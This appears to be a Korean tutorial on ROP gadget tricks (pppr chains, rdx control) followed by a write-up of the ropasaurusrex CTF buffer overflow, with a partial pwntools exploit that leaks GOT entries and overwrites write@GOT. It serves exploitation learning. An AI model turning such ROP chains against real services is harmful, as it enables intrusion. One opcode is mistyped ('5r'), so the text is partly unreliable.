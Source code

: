 ![](https://i.imgur.com/RlQlZRm.png)

기계어를 보면 pop rsi 는 5e이고 pop rdi는 5r 이다. 그런데 이것을 pop r14와 pop r15 를 보면 5e와 5f가 있는 것을 볼 수 있다. 즉 pop r14, pop r15로 pop rsi, pop rdi 의 역할을 할 수 있다.

#### pppr 가젯

read 같이 인자가 3개인 함수는 pppr 가젯을 사용해야 하는데 일반적인 상황에서 pppr 가젯을 얻기 힘들다. 그래서 이러한 경우에는

**pr 인자 ppr 인자 인자**

이렇게 하는게 좋다. pr인자는 pop rdi, ppr인자는 pop rsi pop r15로 한다. 이때 pop r15를 처리해줘야 하기 때문에 0을 넣어준다. 

#### pop rdx, ret 찾기
일단 rdi, rsi는 해결했다. 그럼 rdx는 어떻게 할까? 이는 rdx gadget control을 통해 만들 수 있다. 우선 기본적으로 rdx는 잘 변하지 않는 가젯이다. 그러나 printf 후에 rdx는 0으로, puts 후에는 1 로 바뀐다. 이렇게 rdx를 조작하는 함수를 호출함으로써 rdx를 조작한다.


### 예제_ropasaurusrex

checksec
![](https://i.imgur.com/2NMf9hk.png)
x86 환경이다.

메인함수
![](https://i.imgur.com/kEtmk9x.png)

![](https://i.imgur.com/tjZZQo2.png)

간단하게 136크기의 버퍼와 read로 0x100만큼 입력을 받는 buffer overflow가 일어난다. 익스플로잇 코드를 보자.

```c
from pwn import *
import time
  
p = process("./ropasaurusrex")
e = ELF("./ropasaurusrex")
  
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']
read_system_off = 0xc1f70
  
pppr = 0x80484b6
bss = 0x8049628
  
 
ex = b'a'*136
ex += b'a'*0x4
  
ex += p32(write_plt)
ex += p32(pppr)
ex += p32(1)
ex += p32(read_got)
ex += p32(4)
ex += p32(read_plt)
ex += p32(pppr)
ex += p32(0)
ex += p32(bss)
ex += p32(8)
ex += p32(read_plt)
ex += p32(pppr)
ex += p32(0)
ex += p32(write_got)
ex += p32(4)
```